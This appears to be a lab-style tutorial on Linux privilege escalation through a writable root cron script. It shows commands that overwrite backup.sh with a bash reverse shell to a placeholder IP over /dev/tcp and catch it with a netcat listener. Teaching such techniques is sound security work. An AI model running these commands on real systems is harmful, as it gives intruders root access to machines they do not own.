





### **INTRODUCTION**

Misconfiguration of file permissions associated with cron jobs can lead to easy privilege escalation. If we can write to a program or script that is executed as part of a cron job, we can replace it with our own code. This allows us to run arbitrary code with the privileges of the user executing the cron job, potentially gaining unauthorized access and control over the system.

### **STEPS TO IDENTIFY AND EXPLOIT WEAK FILE PERMISSION**

1.  By executing LinPEAS, we discover a cron job that runs every minute as root, marked with a red/yellow alert.  
    
    

    ??? info "NOTE"

        Even without this being a red/yellow finding, it is worth a closer look!
    
2.  Check the permissions of the script executed by the cron job:  
    `ls -la /home/karen/backup.sh`  
    
    

    ??? info "NOTE"

        Here we see “rw”,  This means that we can either replace this file with a malicious one or edit it so that it executes a malicious command for us. 
    
3.  Next, we should Inspect the script to understand its functionality and decide whether to edit or replace it:  
    `cat /home/karen/backup.sh`  
    
    
    
4.  Add the following command to the script that will give us a reverse shell:  
    `echo '#!/bin/bash' > /home/karen/backup.sh`  
    `echo "" >> /home/karen/backup.sh`  
    `echo 'bash -i >& /dev/tcp/[IP-ADRESS]/1338 0>&1' >> /home/karen/backup.sh`  

     

    ??? info "NOTE"

        In order for the cron job to execute our binary, don't forget give it execute permissions  
    `chmod +x /home/karen/backup.sh` 
    
5.  Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught:  
    `nc -lvnp 1338`  
    
    

    In order for the cron job to execute our binary, don't forget give it execute permissions  
    `chmod +x /home/karen/backup.sh`

    ??? info "NOTE"

        Within a minute, the cron job should trigger, and you should obtain a root shell. 